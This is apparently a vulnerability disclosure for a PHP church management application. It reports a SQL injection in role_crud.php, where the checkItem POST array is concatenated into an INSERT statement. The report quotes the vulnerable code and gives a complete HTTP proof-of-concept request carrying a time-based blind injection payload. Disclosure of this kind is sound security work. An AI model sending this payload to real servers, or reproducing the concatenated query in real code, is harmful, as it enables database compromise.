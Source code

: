 ### Vulnerability file address

`church/admin/app/role_crud.php` from line 16,The `$_POST['checkItem']` parameter is controllable and the `$_POST['checkItem']` is not protected from sql injection, line 19 `$stmt = $conn->prepare("insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')");` ,line 20 `$stmt->execute();` performs a SQL query, causing SQL injection

```php
if (isset($_POST['submit1'])) {
      extract($_POST);
  $stmt = $conn->prepare("insert into groups(name,description)values(?,?)");
    $stmt->execute([$name,$description]);
  $last_id=$conn->lastInsertId();
$id=$last_id;
$checkItem = $_POST["checkItem"];
 $a = count($checkItem);
for($i=0;$i<$a;$i++){
$stmt = $conn->prepare("insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')");
    $stmt->execute();

       }

        $_SESSION['success'] = "success";

        header("location:../manage_role.php");
    }
```

### POC

```http
POST /church/admin/app/role_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

submit1=1&checkItem[]='||(SELECT 0x446a5943 WHERE 2468=2468 AND (SELECT 2834 FROM (SELECT(SLEEP(5)))sGEL))||'&name=member1&description=member1&id=123
```

### Attack results pictures

![image-20250505204558100](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505052045134.png)